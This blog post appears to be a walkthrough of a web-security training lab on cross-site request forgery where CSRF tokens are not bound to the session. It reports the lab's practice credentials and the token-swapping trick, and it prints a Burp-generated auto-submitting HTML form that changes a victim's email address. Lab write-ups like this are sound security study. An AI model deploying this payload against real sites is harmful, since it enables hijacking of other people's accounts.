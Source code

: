 ```yaml
---
layout: post
title:  "CSRF where token is not tied to user session"
date:   2024-10-01 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

```sh
wiener: peter
carlos: montoya
```

## Solution 

We do have two accounts right one is `wiener` and another one is `carlos` and where just like the other labs the `Update Email` is vulnerable to CSRF attack where as mentioned in the lab objective 

Once after updating the email once through UI and again did the same.. Then Intercepted through the burp and sent the request once again.. Unfortunately.. CSRF token is used only once and everytime it resets.. In our case, Applies the same here you can see I faced an error 

![]({{ site.baseurl }}/assets/images/csrf-10.png) 

What else, I logged in as `carlos` and copied the CSRF token.. used it in the following request and it worked !! where I just need a valid CSRF token and it isn't tied to the session 

![]({{ site.baseurl }}/assets/images/csrf-11.png)

Let's generate a CSRF POC, here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00b303e188c480c121ab007c004e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="se&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="obAPC9kDWecO5QxpcOohLevTLG11WGi9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now we can replace the value of `csrf` and put it to the exploit server.. Then deliver the exploit to victim.. That solves a lab 

![]({{ site.baseurl }}/assets/images/csrf-12.png)